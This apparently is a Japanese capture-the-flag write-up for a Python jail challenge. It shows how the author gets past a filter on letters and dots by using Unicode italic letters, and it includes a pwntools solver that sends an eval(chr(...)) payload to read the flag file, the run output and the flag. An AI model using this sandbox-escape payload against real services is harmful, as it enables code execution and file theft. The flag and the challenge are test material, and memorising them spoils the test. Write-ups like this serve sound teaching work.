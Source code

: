 Python jailの問題。  
アルファベットと`.`が禁止されている。  
これ自体は、Unicodeの文字でアルファベットと同等の文字とみなされるもの（Unicode正規化）を使うことで回避できる。

- <https://www.asahi-net.or.jp/~ax2s-kmtn/ref/unicode/u1d400.html#is>

以下のような簡易スクリプトで置き換えた。

```py:replace.py
#!/usr/local/bin/python
a = "abcdefghijklmnopqrstuvwxyz"
b = "𝑎𝑏𝑐𝑑𝑒𝑓𝑔ℎ𝑖𝑗𝑘𝑙𝑚𝑛𝑜𝑝𝑞𝑟𝑠𝑡𝑢𝑣𝑤𝑥𝑦𝑧"
inp = input("Formula: ")
for i in range(len(a)):
    inp = inp.replace(a[i], b[i])
print(inp)
```

- solver.py

```py:solver.py
#!/usr/local/bin/python
from pwn import *

io = remote('challs.tfcctf.com', 31321)
msg = io.recvuntil(b'Formula: ')
io.sendline("𝑒𝑣𝑎𝑙(𝑐ℎ𝑟(111)+𝑐ℎ𝑟(112)+𝑐ℎ𝑟(101)+𝑐ℎ𝑟(110)+𝑐ℎ𝑟(40)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(102)+𝑐ℎ𝑟(108)+𝑐ℎ𝑟(97)+𝑐ℎ𝑟(103)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(44)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(114)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(41)+𝑐ℎ𝑟(46)+𝑐ℎ𝑟(114)+𝑐ℎ𝑟(101)+𝑐ℎ𝑟(97)+𝑐ℎ𝑟(100)+𝑐ℎ𝑟(40)+𝑐ℎ𝑟(41))")
io.interactive()
```

```sh
$ python solver.py 
[+] Opening connection to challs.tfcctf.com on port 32673: Done
solver.py:7: BytesWarning: Text is not bytes; assuming UTF-8, no guarantees. See https://docs.pwntools.com/#bytes
  io.sendline("𝑒𝑣𝑎𝑙(𝑐ℎ𝑟(111)+𝑐ℎ𝑟(112)+𝑐ℎ𝑟(101)+𝑐ℎ𝑟(110)+𝑐ℎ𝑟(40)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(102)+𝑐ℎ𝑟(108)+𝑐ℎ𝑟(97)+𝑐ℎ𝑟(103)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(44)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(114)+𝑐ℎ𝑟(39)+𝑐ℎ𝑟(41)+𝑐ℎ𝑟(46)+𝑐ℎ𝑟(114)+𝑐ℎ𝑟(101)+𝑐ℎ𝑟(97)+𝑐ℎ𝑟(100)+𝑐ℎ𝑟(40)+𝑐ℎ𝑟(41))")
[*] Switching to interactive mode
TFCCTF{18641f40c9beac02ceeaf87db851c386}
[*] Got EOF while reading in interactive
```

- FLAG

```text
TFCCTF{18641f40c9beac02ceeaf87db851c386}
```

### 参考：Python 3 Built-in

PythonのBuilt-inのリファレンス：<https://docs.python.org/3/library/functions.html>

## MISC/MY THIRD CALCULATOR
